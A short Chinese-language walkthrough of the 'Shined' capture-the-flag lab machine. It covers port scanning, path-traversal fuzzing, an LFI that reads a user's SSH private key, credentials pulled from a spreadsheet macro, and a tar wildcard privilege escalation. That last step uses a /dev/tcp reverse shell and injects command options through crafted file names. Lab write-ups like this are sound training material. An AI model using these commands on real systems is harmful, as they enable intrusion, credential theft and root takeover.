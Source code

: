 # Shined

2025.03.28 https://thehackerslabs.com/shined/

[video]()

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

web 只有一个 access.php 不存在 sql 注入，探测一下其他参数吧：

```
ffuf -t 100 -c  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt  -u 'http://192.168.5.39/access.php?FUZZ=../../../../../etc/hosts' -fs 1849
```

发现 inet 存在 LFI,读取 /etc/passwd 发现用户 cifra ，读取不到 web 日志文件，但是能读取到 cifra 的私钥。

```
curl http://192.168.5.39/access.php?inet=../../../../../home/cifra/.ssh/id_rsa
```

保存，22 上不能登陆，2222 上可以私钥登陆，发现/.dockerenv 在容器中。

发现一个 contabilidad.xlsm，有宏 olevba 就看到一个 leopoldo:snickers 在用这个凭据登陆 22 ssh 端口，成功，拿到 user flag：

```
leopoldo@shined:~$ cat user.txt
73f5b965bd7e817a71b853f44ada19b0
```

./Desktop/scripts/backup.tgz 是一个循环的压缩包，在/tmp 中发现 backup.sh 就是创建 backup.tgz 的脚本，同时发现 backup.tgz 每分钟更新一次，应该是后台计划任务，直接利用 tar 方式提权：

```
cd ~/Desktop/scripts/
printf '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"\n' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```

不知道哪个用户在执行计划任务，先获得个反弹 shell。

1 分钟后拿到 root：

```
root@shined:~# cat root.txt
01d940a42e6a3f5727e2382d9f4f3b87
```
